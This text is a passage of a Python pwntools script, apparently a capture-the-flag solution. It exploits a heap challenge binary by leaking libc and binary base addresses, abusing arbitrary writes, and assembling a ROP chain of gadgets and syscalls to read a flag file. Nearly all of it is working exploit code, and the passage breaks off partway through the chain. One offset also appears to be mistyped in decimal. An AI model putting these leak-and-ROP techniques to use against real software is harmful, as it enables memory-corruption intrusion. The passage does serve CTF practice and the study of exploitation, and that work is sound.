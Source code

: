 ```python
    for c in chunk_list:
        p.sendline('2')
        diff = 8 - len(c)
        c = b"\x00"*diff + c
        payload = hex(cur_where) + " " + hex(u64(c))
        p.sendlineafter('value:', payload)
        menu()
        cur_where += 0x8

########## Solution #############
menu()
# leak is at main_arena+96, diff of 0x3b5be0 from base of libc
payload = b'\x00'*0x20 + b'A'*8 + b'\x00'*8
leak = get_leak(payload)
log.info('leaked 0x%x' % leak)
libc.address = leak - 0x3b5be0
free_hook = libc.symbols['__free_hook']

# get heap leak by reading main arena leak
heap_leak = read_addr(hex(leak))
input_addr = heap_leak - 0x1240       # offset in chunk to user data


# binary base in linker at main_arena leak + 0x22e900
bin_base = read_addr(hex(leak+0x22e900))
e.address = bin_base
log.info("binary base at 0x%x" % e.address)
review = e.address + 0x202038
write_count = e.address + 0x202034
read_count = e.address + 202030

# some writable part of memory to put flag path/contents
buf_target = e.address + 0x202050

write_addr(hex(write_count), "-0x500")      # get more writes

# mov rsp, rbx; lea rsp, [rbp - 0x10]; pop rbx; pop r12; pop rbp; ret;
pivot_gadget = libc.address + 0xc536b

exit_funcs = libc.address + 0x3b5718
base_addr = libc.address

#get_chain(buf_target, buf_target+0x20, base_addr)
# chain was generated with get_chain() and copied here
# seems to not work if just returned as bytes
chain = b""
chain += p64(0x12c561 + base_addr)    # pop rax; pop rdx; pop rbx; ret
chain += p64(0xffff0067616c662f)
chain += p64(buf_target)
chain += p64(0x0)
chain += p64(0x7d597 + base_addr)    # mov qword ptr [rdx], rax; ret
chain += p64(0x39000 + base_addr)    # pop rax; ret
chain += p64(0x3)
chain += p64(0xc4cc0 + base_addr)    # pop rdi; ret
chain += p64(0x0)
chain += p64(0x39049 + base_addr)    # syscall
chain += p64(0xc4cc0 + base_addr)    # pop rdi; ret
chain += p64(buf_target)
chain += p64(0x221ba + base_addr)    # mov esi, 0x415b0007; pop rsi; ret
chain += p64(0x0)
chain += p64(0x12c561 + base_addr)    # pop rax; pop rdx; pop rbx; ret
chain += p64(0x2)
chain += p64(0x0)
```